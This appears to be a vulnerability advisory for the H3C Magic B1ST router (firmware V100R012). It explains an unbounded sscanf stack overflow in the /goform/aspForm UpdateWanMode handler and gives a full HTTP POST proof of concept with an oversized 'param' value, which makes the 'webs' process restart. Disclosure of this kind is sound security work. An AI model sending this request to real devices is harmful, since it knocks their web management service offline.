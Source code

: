 ## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `UpdateWanMode`, the program will go into the following handling function.

![image-20230610002651399](assets/image-20230610002651399.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v6` on the stack. The parameter `%s` of `sscanf` didn't limit the copy length.

![image-20230610002714854](assets/image-20230610002714854.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateWanMode&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

## Result

the process `webs` restart

![image-20230610132026747](assets/image-20230610132026747.png)
